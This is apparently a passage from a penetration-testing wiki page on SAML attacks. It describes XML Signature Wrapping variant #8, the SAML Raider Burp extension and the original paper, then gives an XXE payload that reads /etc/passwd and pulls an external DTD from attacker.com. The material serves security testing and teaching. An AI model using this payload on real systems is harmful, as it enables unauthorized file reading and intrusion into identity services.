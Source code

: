 ![](<../../.gitbook/assets/image (544).png>)

### XSW #8

XSW #8 uses another **less restrictive XML element** to perform a variation of the attack pattern used in XSW #7. This time around the original Assertion is the child of the less restrictive element instead of the copied Assertion.

![](<../../.gitbook/assets/image (545).png>)

### Tool

You can use the Burp extension [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) to parse the request, apply any XSW attack you choose, and launch it.

![](<../../.gitbook/assets/image (546).png>)

### Original Paper

For more information about this attack read the original paper in [https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91.pdf](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91.pdf)

## XXE

If you don't know which kind of attacks are XXE, please read the following page:

{% content-ref url="../xxe-xee-xml-external-entity.md" %}
[xxe-xee-xml-external-entity.md](../xxe-xee-xml-external-entity.md)
{% endcontent-ref %}

Due to the fact that SAML Responses are deflated and base64’d **XML documents**, we can test for **XXE** by manipulating the XML document sent as the SAML Response. Example:

```markup
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY    file SYSTEM "file:///etc/passwd">
   <!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
  <samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
  <saml:Issuer>...</saml:Issuer>
  <ds:Signature ...>
    <ds:SignedInfo>
      <ds:CanonicalizationMethod .../>
      <ds:SignatureMethod .../>
      <ds:Reference URI="#_df55c0bb940c687810b436395cf81760bb2e6a92f2">...</ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>...</ds:SignatureValue>
[...]
```

### Tool
